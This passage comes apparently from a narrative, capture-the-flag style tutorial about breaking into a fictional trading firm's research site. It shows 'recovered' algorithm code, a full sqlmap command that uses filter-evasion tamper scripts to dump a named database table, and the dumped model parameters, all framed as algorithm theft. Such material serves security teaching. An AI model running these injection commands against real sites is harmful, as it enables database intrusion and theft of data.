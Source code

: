 This extracts only the specific algorithm version you need. After 90 minutes of systematic extraction, SQLMap recovers:

```python
# ARGOS v3.1 - Infinite Money Machine Core Algorithm
# Classification: TOP SECRET - CASTLE SECURITIES PROPRIETARY

import numpy as np
import tensorflow as tf
from sklearn.ensemble import RandomForestClassifier

class ARGOSPredictor:
    def __init__(self):
        self.market_sentiment_model = self._load_sentiment_model()
        self.price_prediction_model = self._load_prediction_model()
        self.risk_management_model = self._load_risk_model()
        
    def predict_market_movement(self, market_data, news_sentiment, weather_data):
        # Multi-factor prediction combining technical, sentiment, and external data
        technical_signal = self._analyze_technical_indicators(market_data)
        sentiment_signal = self._analyze_market_sentiment(news_sentiment)
        external_signal = self._analyze_external_factors(weather_data)
        
        # Proprietary weighting algorithm (Castle Securities IP)
        combined_signal = (technical_signal * 0.4 + 
                          sentiment_signal * 0.35 + 
                          external_signal * 0.25)
        
        return self._generate_trading_decision(combined_signal)
```

You've extracted the core algorithm! But this is just the implementation. The mathematical models and training data exist in other tables.

### Model Parameters and Training Data Extraction

The algorithm source code references external models and datasets. Professional algorithm theft requires extracting the complete system including trained models, parameters, and datasets.

Extract model parameters from the `argos_v3_models` table:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       -T argos_v3_models \
       --dump
```

This reveals mathematical coefficients, neural network weights, and model hyperparameters that define how the algorithm actually makes predictions:

```
model_type: RandomForestClassifier
parameters: {
  "n_estimators": 1000,
  "max_depth": 50,
  "min_samples_split": 10,
  "feature_importance_weights": [0.23, 0.18, 0.15, 0.12, 0.09, ...]
}
training_accuracy: 0.97
validation_accuracy: 0.93
```
